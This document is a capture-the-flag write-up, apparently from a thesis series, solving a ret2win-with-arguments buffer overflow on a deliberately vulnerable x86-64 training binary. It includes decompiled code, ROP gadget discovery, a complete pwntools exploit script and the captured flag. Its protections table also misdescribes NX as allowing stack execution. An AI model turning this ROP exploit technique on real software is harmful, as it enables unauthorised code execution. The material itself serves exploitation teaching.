

# [__Challenge2__](#)

## Description: 

* ret2win example, overflow the buffer and overwrite the return address with the address of win. This time, `win` needs to have 2 arguments.

## Objective: 

* ret2win with args.

## Flag:
* `FLAG{ret2win_but_w1th_4rg5_1s_345y_t00}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge2/challenge/challenge2'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

It looks like `challenge1`.

### Protections 🛡️

```gdb
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Having `canary` and `PIE` disabled, means that we might have a possible `buffer overflow`.

The interface of the program looks like this:




### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00400c98);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined local_28 [32];
  
  buffer_demo();
  printf(
         "\n[*] The buffer is [%d] bytes long and \'read(0, buffer, 0x69)\' reads up to 0x69bytes.\n[*] Overflow the buffer and SFP with junk and then \'Return Address\' with theaddress of \'win()\'.\n[*] This time, you need to call \'win(0xdeadbeef,0xc0deb4be)\'.\n\n> "
         ,0x20);
  read(0,local_28,0x69);
  return;
}
```

It calls `buffer_demo()` which prints the stack frame we saw at the interface. Then, it calls `read(0, local_28, 0x69)`. 

It is almost the same as challenge1, but this time instead of `scanf`, we are using `read`. From the `man` page of `read`:

```console
SYNOPSIS
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t count);

DESCRIPTION
read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.

On files that support seeking, the read operation commences at the file offset, and the file offset is incremented by the number of
bytes read.  If the file offset is at or past the end of file, no bytes are read, and read() returns zero.

If count is zero, read() may detect the errors described below.  In the absence of any errors, or if  read()  does  not  check  for
errors, a read() with a count of 0 returns zero and has no other effects.
```

`local_28` is a 32 bytes long buffer but, we can read up to 0x69 bytes. That means, we can overflow the buffer and redirect the flow of the program`.
 

### win() 🏆

This time, `win` is a bit different.

```c
void win(int param_1,int param_2)

{
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined2 local_18;
  FILE *local_10;
  
  if ((param_1 != -0x21524111) || (param_2 != -0x3f214b42)) {
    fail();
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  puts("\x1b[1;32m");
  puts("\n[+] You managed to redirect the program\'s flow!\n[+] Here is your reward:\n");
  local_10 = fopen("./flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets((char *)&local_48,0x32,local_10);
    puts((char *)&local_48);
    fclose(local_10);
    return;
  }
  printf("%s[-] Error opening flag.txt!\n",&DAT_00400c98);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```
As expected from the previous example, this function reads and prints the flag for us. But, in order to do so, there is a check.

```c
if ((param_1 != -0x21524111) || (param_2 != -0x3f214b42)) {
  fail();
}
```

So, this time, `win` takes 2 arguments. If argument1 is not -0x21524111 and argument2 is not -0x3f214b42
### Goal 🥅

Our goal is to reach this function, which is never called. What we are going to do is:

Let's keep in mind the interface of the program:

```console
🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
🔩                                                                🔩
🔩  This is a simple Buffer Overflow example : ret2win with args  🔩
🔩                                                                🔩
🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩


Stack frame layout looks like this:

|_____________|
|             |  <- 48 bytes
| Return addr |
|_____________|
|             |  <- 40 bytes
|     SFP     |
|_____________|
|             |  <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________|


[*] The buffer is [32] bytes long and 'read(0, buffer, 0x69)' reads up to 0x69 bytes.
[*] Overflow the buffer and SFP with junk and then 'Return Address' with the address of 'win()'.
[*] This time, you need to call 'win(0xdeadbeef, 0xc0deb4be)'.
```

* Fill the `local_28[32]` buffer with 32 bytes of junk.
* Overwrite the `stack frame pointer` with 8 bytes of junk.
* Set the arguments for `win(0xdeadbeef, 0xc0deb4be)`.
* Overwrite the `return address` with the address of `win(0xdeadbeef, 0xc0deb4be)`, 8 bytes aligned and correct endianness.

How are we going to set the arguments of `win`? If it was a x86 binary, it would just go on the stack but, now we are working with a x86-64 binary. We are going to find where the arguments are stored in a hands-on way.

### Debugging 🐞

We are going to use `pwntools` in order to debug our binary. Inside our script, we write this:

```python
gdb.attach(r, '''b win\nc''')
```

This way, we set a `breakpoint` at `win` and we continue our program until it hits the breakpoint. 

Our payload so far, will be something like:

```python
payload = "A"*40 + win
```

When we run the script, the program halts here:

```gdb
→   0x4008f1 <win+4>          sub    rsp, 0x50
    0x4008f5 <win+8>          mov    DWORD PTR [rbp-0x44], edi
    0x4008f8 <win+11>         mov    DWORD PTR [rbp-0x48], esi
    0x4008fb <win+14>         cmp    DWORD PTR [rbp-0x44], 0xdeadbeef
    0x400902 <win+21>         jne    0x400910 <win+35>
    0x400904 <win+23>         cmp    DWORD PTR [rbp-0x48], 0xc0deb4be
```

### Registers 💺

At <win+8>, we see that `edi` is loaded at `rbp-0x44` and `esi` at `rbp-0x48`.
Our 2 desired values, are stored at these addresses respectively. From this, we can understand that:
* The first argument of a function is stored at `edi` (`rdi` because we are on x86-64) and `esi` (`rsi` because we are on x86-64). So, we need to somehow pop these registers in order to fill them with the data we want. We are going to use [pwntools rop](https://docs.pwntools.com/en/stable/rop/rop.html) module.

We are going to find our gadgets like this:

```python
fname = "./challenge2" 
e     = ELF(fname)
rop   = ROP(e)
print("\nrdi @ 0x{:x}\nrsi @ 0x{:x}". format(rop.find_gadget(["pop rdi"])[0], rop.find_gadget(["pop rsi"])[0]))
```

The output of this is:

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge2/challenge/challenge2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge2'

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

rdi @ 0x400bd3
rsi @ 0x400bd1
```

So, we have `pop rdi` at 0x400bd3 and `pop rsi` at 0x400bd1. In order to verify this, we can use `gdb`. Inside `gdb`, we will examine the address with `x/4i` command. The result is:

```gdb
gef➤  x/4i 0x400bd3
   0x400bd3 <__libc_csu_init+99>:	pop    rdi
   0x400bd4 <__libc_csu_init+100>:	ret    
   0x400bd5:	nop
   0x400bd6:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/4i 0x400bd1
   0x400bd1 <__libc_csu_init+97>:	pop    rsi
   0x400bd2 <__libc_csu_init+98>:	pop    r15
   0x400bd4 <__libc_csu_init+100>:	ret    
   0x400bd5:	nop
```

Our gadgets seem nice, the only odd thing is that `pop rsi`, is followed by a `pop r15` gadget. This does not affect us, we just need to fill this register with junks and we are good to go.

our payload should look like this:

```python
payload  = b"A"*40
payload += p64(rop.find_gadget(["pop rdi"])[0]) # pop rdi to insert first arg
payload += p64(0xdeadbeef)
payload += p64(rop.find_gadget(["pop rsi"])[0]) # pop rsi to insert second arg
payload += p64(0xc0deb4be)
payload += p64(0x1337b4be) # fill pop r15 with 8 bytes of junk
payload += p64(e.sym.win)  # call win 
```

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge2" 

LOCAL =True# False

e     = ELF(fname)
rop   = ROP(e)

prompt = ">"

def pwn():
  # Find the overflow offset
  offset = 40
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  payload  = b"A"*offset
  payload += p64(rop.find_gadget(["pop rdi"])[0])
  payload += p64(0xdeadbeef)
  payload += p64(rop.find_gadget(["pop rsi"])[0])
  payload += p64(0xc0deb4be)
  payload += p64(0x1337b4be)
  payload += p64(e.sym.win)
  r.sendlineafter(">",  payload)

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored("\n[+] Flag: {}\n".format(flag), "green"))
  except:
    print(colored("\n[-] Failed to connect or get flag.txt!\n", "red"))

if __name__ == "__main__":
  pwn()

```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge2/challenge/challenge2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge2'

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

[+] Flag: FLAG{ret2win_but_w1th_4rg5_1s_345y_t00}
```
